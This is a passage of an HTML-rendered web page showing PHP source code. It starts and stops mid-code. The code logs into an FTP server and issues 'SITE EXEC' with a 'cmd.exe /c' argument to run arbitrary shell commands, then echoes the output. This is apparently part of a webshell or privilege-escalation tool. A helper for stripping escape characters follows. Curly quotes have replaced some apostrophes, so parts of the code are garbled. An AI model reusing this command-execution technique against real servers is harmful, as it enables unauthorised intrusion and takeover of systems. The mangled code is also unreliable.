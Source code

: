     </li>
    <li class="">
      <span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;fputs&nbsp;($conn_id,&nbsp;"PASS&nbsp;".$password."");</span>&nbsp;</span>
    </li>
    <li class="alt">
      <span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sleep&nbsp;(1);</span>&nbsp;</span>
    </li>
    <li class="">
      <span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;fputs&nbsp;($conn_id,&nbsp;"SITE&nbsp;EXEC&nbsp;".$dir."cmd.exe&nbsp;/c&nbsp;".$cmd."");</span>&nbsp;</span>
    </li>
    <li class="alt">
      <span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;fputs&nbsp;($conn_id,&nbsp;"QUIT");</span>&nbsp;</span>
    </li>
    <li class="">
      <span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sleep&nbsp;(1);</span>&nbsp;</span>
    </li>
    <li class="alt">
      <span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;while&nbsp;(!feof($conn_id))&nbsp;{</span>&nbsp;</span>
    </li>
    <li class="">
      <span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;echo&nbsp;fgets&nbsp;($conn_id,128);</span>&nbsp;</span>
    </li>
    <li class="alt">
      <span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}</span>&nbsp;</span>
    </li>
    <li class="">
      <span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;fclose($conn_id);</span>&nbsp;</span>
    </li>
    <li class="alt">
      <span><span class="string">}</span>&nbsp;</span>
    </li>
    <li class="">
      <span><span class="string">}</span>&nbsp;</span>
    </li>
    <li class="alt">
      <span>&nbsp;</span>
    </li>
    <li class="">
      <span>&nbsp;</span>
    </li>
    <li class="alt">
      <span><span class="string">//去除转义字符</span>&nbsp;</span>
    </li>
    <li class="">
      <span><span class="string">function&nbsp;stripslashes_array(&$array)&nbsp;{</span>&nbsp;</span>
    </li>
    <li class="alt">
      <span><span class="string">while&nbsp;(list($key,$var)&nbsp;=&nbsp;each($array))&nbsp;{</span>&nbsp;</span>
    </li>
    <li class="">
      <span><span class="string">if&nbsp;($key&nbsp;!=&nbsp;&#8216;</span><span>argc</span><span class="string">&#8216;&nbsp;&&&nbsp;$key&nbsp;!=&nbsp;&#8216;</span><span>argv</span><span class="string">&#8216;&nbsp;&&&nbsp;(strtoupper($key)&nbsp;!=&nbsp;$key&nbsp;||&nbsp;&#8216;</span><span>&#8216;.</span><span class="func">intval</span><span>(</span><span class="vars">$key</span><span>)&nbsp;==&nbsp;"</span><span class="vars">$key</span><span>"))&nbsp;{&nbsp;&nbsp;</span></span>
    </li>
    <li class="alt">